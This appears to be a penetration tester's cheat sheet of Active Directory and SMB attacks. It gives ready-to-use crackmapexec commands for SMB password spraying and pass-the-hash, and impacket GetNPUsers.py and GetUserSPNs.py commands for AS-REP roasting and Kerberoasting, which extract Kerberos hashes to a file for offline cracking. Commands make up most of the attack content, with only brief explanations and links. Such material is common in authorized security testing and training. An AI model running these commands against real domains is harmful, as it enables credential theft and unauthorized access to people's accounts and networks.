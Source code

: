 ## Miscellaneous Attacks In No Particular Order

**SMB Password Spraying**

When You have a working password and a list of userames, or a working username and a list of passwords, ``crackmapexec`` makes testing your credentials trivial.

```bash
crackmapexec smb <IP> -u <USERLIST> -p '<PASS>' --continue-on-success
crackmapexec smb <IP> -u '<USER>' -p <PASSLIST> --continue-on-success
# Authenticate with an NT hash
crackmapexec smb <IP> -u <USERLIST>-H '<NT_HASH>' --continue-on-success 
```

## Windows / Active Directory Attacks

**AS-REP Roasting**

AS-REP roasting is a technique that allows retrieving password hashes for users that have don't require Kerberos preauthentication. ``impacket`` has a utility that makes this trivial for us. I could only do a bad job explaining this attack, so I've linked much better resources below. It is important to note that this is not found often, if at all, in real world engagements.

```bash
python3 GetNPUsers.py <DOMAIN>/ -dc-ip <IP> -no-pass -usersfile <USERLIST>
```

- [Roasting AS-REPS](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
- [AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

**Kerberoasting**

Kerberoasting is a method for extracting service account credentials from Active Directory as a notmal user. Again, [AD Security](https://adsecurity.org/) has an insane amount of content that goes in depth to what this is, how it works, and when to use it. I won't even bother going into the detail's of the attack here, but articles from them are linked below.

``impacket`` has a utility that makes this trivial for us, ``GetUserSPNs.py``.


```bash
# Normal Authentication
python3 GetUserSPNs.py -request -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -save -outputfile hashes.txt

# Authentication with NT and LM Hashes
python3 GetUserSPNs.py -request -dc-ip <IP> -hashes <LM_HASH>:<NT_HASH> <DOMAIN>/<USER> -save -outputfile hashes.txt
```

If the DC is configured with UserAccountControl setting “Do not require Kerberos preauthentication” enabled, it's possible to request and receive a ticket to crack without a valid account on the domain. TL;DR You don't need a passsword.

```bash
python3 GetUserSPNs.py -request -dc-ip <IP> <DOMAIN>/<USER> -save -outputfile hashes.txt
```

- [Cracking Kerberos TGS Tickets Using Kerberoast](https://adsecurity.org/?p=2293)
- [Dectecting Kerboasting Activity](https://adsecurity.org/?p=3458)
- [Kerberos Overview](https://adsecurity.org/?p=227)
